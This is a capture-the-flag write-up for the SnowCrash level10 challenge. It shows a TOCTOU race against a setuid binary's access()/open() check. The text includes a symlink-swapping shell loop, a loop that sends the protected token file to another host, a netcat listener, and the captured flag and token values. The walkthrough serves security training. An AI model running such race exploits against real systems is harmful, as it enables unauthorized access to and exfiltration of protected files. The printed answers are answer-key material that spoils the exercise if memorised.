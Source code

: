 We see 2 files token and level10:
```
level10@SnowCrash:~$ ls -la
total 28
[...]
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
-rw-------  1 flag10  flag10     26 Mar  5  2016 token
```
We don't have access to the token, but we can run level10:
```
level10@SnowCrash:~$ ./level10 
./level10 file host
	sends file to host if you have access to it
level10@SnowCrash:~$ ./level10 token localhost
You don't have access to token
```
Let's try to transfer our file
```
level10@SnowCrash:~$ echo 'abc' > /tmp/myfile
level10@SnowCrash:~$ ./level10 /tmp/myfile localhost
Connecting to localhost:6969 .. Unable to connect to host localhost
```
In binary used function access():
```
level10@SnowCrash:~$ nm -u level10
         w _Jv_RegisterClasses
         U __errno_location@@GLIBC_2.0
         w __gmon_start__
         U __libc_start_main@@GLIBC_2.0
         U __stack_chk_fail@@GLIBC_2.4
         U access@@GLIBC_2.0
         U connect@@GLIBC_2.0
         U exit@@GLIBC_2.0
         U fflush@@GLIBC_2.0
         U htons@@GLIBC_2.0
         U inet_addr@@GLIBC_2.0
         U open@@GLIBC_2.0
         U printf@@GLIBC_2.0
         U puts@@GLIBC_2.0
         U read@@GLIBC_2.0
         U socket@@GLIBC_2.0
         U strerror@@GLIBC_2.0
         U write@@GLIBC_2.0
```
```
level10@SnowCrash:~$ man 2 access
[...]
NOTES
       Warning:   Using access() to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because
       the user might exploit the short time interval between checking and opening the file to manipulate it.  For this reason, the use of this system call should be
       avoided.   (In  the  example  just  described, a safer alternative would be to temporarily switch the process's effective user ID to the real ID and then call
       open(2).)
[...]
```
It means that a malicious user could substitute a file he has access to for a
symlink to something he doesn't have access to between the access() and
the open() calls. 

Let's save script substitute to file `/tmp/substitute.sh`, and run it
```
#!/bin/sh
while true;
    do
        ln -fs ~/token /tmp/link;
        ln -fs ~/level10 /tmp/link;
    done
```
In another tab of terminal make and run listen.sh script file `/tmp/substitute.sh`
(we try to use localhost, but it not worked)
```
#!/bin/sh
while true;
    do
        ./level10 /tmp/link 192.168.1.88; #our VM ip
    done
```
And now lets listen on 6969 port in third terminal window:
```
level10@SnowCrash:~$ nc -lk 6969
[...]
woupa2yuojeeaaed06riuj63c
[...]
```
it's flag password!

token: 'feulo4b72j7edeahuete3no7c'